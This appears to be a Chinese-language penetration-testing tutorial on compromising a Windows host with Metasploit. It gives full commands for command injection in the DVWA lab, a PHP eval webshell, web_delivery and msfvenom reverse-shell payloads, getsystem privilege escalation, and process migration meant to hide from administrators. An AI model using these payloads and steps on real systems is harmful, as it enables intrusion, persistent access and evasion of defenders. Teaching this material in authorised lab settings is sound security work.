# 网络安全：P69：MSF攻击Windows实例教程

## 概述
在本节课中，我们将学习如何利用Metasploit Framework（MSF）对一个Windows目标进行渗透测试。我们将通过一个具体的攻击实例，演示从信息收集、漏洞利用到获取Meterpreter会话、权限提升和进程迁移的完整流程。本教程旨在让初学者理解渗透测试的基本思路和MSF的核心操作。

---





## 攻击思路与方法
上一节我们介绍了MSF的基础知识，本节中我们来看看针对Windows系统的具体攻击方法。攻击的突破口通常位于Web应用或中间件。



以下是三种常见的攻击入口：
1.  **通过Web站点**：利用命令执行、文件上传等漏洞进行攻击。
2.  **上传WebShell**：通过文件上传点，上传由MSF生成的木马文件。
3.  **攻击其他端口**：例如攻击445（SMB）、17020等端口以获取初始权限。





---









## 方法一：利用Web命令执行漏洞
我们首先来看第一种方法。在开始之前，需要进行信息收集，以确定目标开放了哪些服务。





### 端口扫描
使用Nmap对目标进行端口扫描，命令如下：
```bash
nmap -sV -T4 目标IP地址
```
扫描结果显示目标开放了80端口（Web服务）、445端口（SMB服务）和3306端口（MySQL服务），操作系统为Windows。



### 寻找与利用漏洞
80端口通常是漏洞最多的入口点。我们访问目标站点，使用目录扫描工具（如Dirsearch）寻找可能的漏洞路径。



本例以DVWA（Damn Vulnerable Web Application）靶场为例。DVWA包含一个命令执行漏洞模块（Command Injection）。

1.  访问DVWA的命令执行页面，并将安全级别设置为`low`。
2.  页面要求输入一个IP进行ping测试。我们输入`127.0.0.1`。
3.  命令执行漏洞允许进行命令拼接。我们可以使用`&&`来执行多条命令。
    *   输入：`127.0.0.1 && whoami`
    *   提交后，系统会执行`ping 127.0.0.1`和`whoami`两条命令，并返回结果，证明我们拥有命令执行权限。

### 使用MSF的`web_delivery`模块
当我们拥有命令执行权限但尚未获得完整Shell时，可以使用MSF的`web_delivery`模块。该模块能在不向磁盘写入文件的情况下，在内存中建立稳定的反向连接。

以下是操作步骤：
1.  在MSF中加载`web_delivery`模块：
    ```bash
    use exploit/multi/script/web_delivery
    ```
2.  由于目标站点是PHP环境，我们需要设置Payload为PHP反向TCP连接：
    ```bash
    set payload php/meterpreter/reverse_tcp
    ```
3.  配置监听地址和端口：
    ```bash
    set LHOST 攻击者IP
    set LPORT 6666
    ```
4.  查看并设置目标类型为PHP：
    ```bash
    show targets
    set target 1
    ```
5.  执行`run`命令，MSF会生成一段PHP代码。
6.  将生成的代码通过目标的命令执行漏洞（在DVWA中输入`127.0.0.1 && [生成的PHP代码]`）运行。
7.  如果执行成功，MSF会接收到一个Meterpreter会话。



**注意**：如果目标服务器的PHP环境变量未正确配置，上述PHP代码可能无法执行。此时可以尝试将Payload切换为Python（`set target 0`），前提是目标系统安装了Python。





---



## 方法二：上传WebShell获取权限
如果通过目录扫描发现了文件上传点或已知漏洞（例如ThinkPHP 5.x远程命令执行漏洞），我们可以上传一个WebShell。





### 上传与连接WebShell
1.  利用漏洞（如ThinkPHP RCE）上传一个一句话木马文件（例如`shell.php`）。
2.  文件内容为：`<?php @eval($_POST[‘c’]);?>`
3.  使用中国菜刀、蚁剑等WebShell管理工具连接该文件。连接地址为`http://目标IP/shell.php`，密码为`c`。









### 通过WebShell上传并执行MSF木马
获得WebShell后，我们拥有了一定的文件操作权限。接下来需要上传一个由MSF生成的木马，以获取功能更强大的Meterpreter会话。







1.  在MSF中生成一个Windows可执行木马：
    ```bash
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=攻击者IP LPORT=8888 -f exe > shell.exe
    ```
2.  通过WebShell的文件上传功能，将`shell.exe`上传到目标服务器（例如C盘）。
3.  通过WebShell的终端功能，执行上传的木马：`C:\shell.exe`。
4.  在MSF中启动对应的监听器（`use exploit/multi/handler`，设置相同的Payload和LHOST/LPORT），等待连接。
5.  成功连接后，获得Meterpreter会话。

### 权限提升与进程迁移
获得Meterpreter会话后，我们可能不是最高权限。

1.  **权限提升**：使用`getsystem`命令尝试提权至SYSTEM权限。
2.  **进程迁移**：为了防止管理员发现并结束我们的木马进程，需要将其迁移到系统正常进程（如`httpd.exe`, `mysqld.exe`）中。
    *   查看当前进程ID：`getpid`
    *   查看系统进程列表：`ps`
    *   迁移进程（例如迁移到PID为`1234`的`httpd.exe`进程）：`migrate 1234`
    *   **注意**：高权限进程可以向低权限进程迁移，反之则不行。

进程迁移后，木马将依附于正常服务运行，隐蔽性更强，不易被管理员发现。

---

## 总结
本节课我们一起学习了利用MSF攻击Windows实例的完整流程。

我们主要探讨了两种思路：
1.  **利用Web命令执行漏洞**，结合`web_delivery`模块直接在内存中建立Meterpreter连接。
2.  **通过文件上传漏洞获取WebShell**，再上传并执行MSF木马，最终获得Meterpreter会话。



在获得初始访问权限后，我们进行了**权限提升**和**进程迁移**，以巩固访问权限并提高隐蔽性。整个流程涵盖了渗透测试中信息收集、漏洞利用、权限维持等关键环节。请务必在合法授权的环境中进行练习，以熟练掌握这些技术。